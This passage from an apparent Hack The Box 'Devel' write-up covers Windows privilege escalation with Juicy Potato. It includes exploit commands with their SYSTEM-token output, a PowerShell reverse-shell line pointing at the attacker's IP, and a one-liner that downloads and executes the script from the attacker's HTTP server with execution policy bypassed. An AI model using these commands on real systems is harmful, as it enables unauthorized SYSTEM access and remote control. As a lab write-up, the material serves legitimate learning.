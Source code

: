 ```cmd
c:\inetpub\wwwroot>Juicy.Potato.x86.exe -l 414 -p c:\windows\system32\cmd.exe -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}
Juicy.Potato.x86.exe -l 414 -p c:\windows\system32\cmd.exe -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}
Testing {03ca98d6-ff5d-49b8-abc6-03dd84127020} 414
......
[+] authresult 0
{03ca98d6-ff5d-49b8-abc6-03dd84127020};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

c:\inetpub\wwwroot>whoami
whoami
iis apppool\web
```

It seemed to work, but didn't pop us out a shell as SYSTEM. I think this may be because it launches the process, but does so in the background - on the [Github](https://github.com/ohpe/juicy-potato) we can see it opening a separate command shell. So maybe we need to send ourselves a shell instead.

I considered using a [powershell reverse shell](#powershell), but didn't know how Juicy Potato would handle the flags and quotation marks - so I just searched "juicy potato reverse shell".

[This hacktricks page](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato) had a few examples - I could use `nc.exe` if I uploaded a shell to the box, but there was an equally nice [powershell example](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato#powershell-rev).

I copied across a `minirev.ps1` script I'd used previously (download [here](https://gist.github.com/staaldraad/204928a6004e89553a8d3db0ce527fd5)), and edited the connection details:

```powershell
$socket = new-object System.Net.Sockets.TcpClient('10.10.16.211', 414);
```

I served it:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/devel/www]
└─$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

And used this command:

```bash
c:\inetpub\wwwroot>Juicy.Potato.x86.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.16.211:8080/minirev.ps1')" -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}
Juicy.Potato.x86.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.16.211:8080/minirev.ps1')" -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}
Testing {03ca98d6-ff5d-49b8-abc6-03dd84127020} 1337
......
[+] authresult 0
{03ca98d6-ff5d-49b8-abc6-03dd84127020};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```
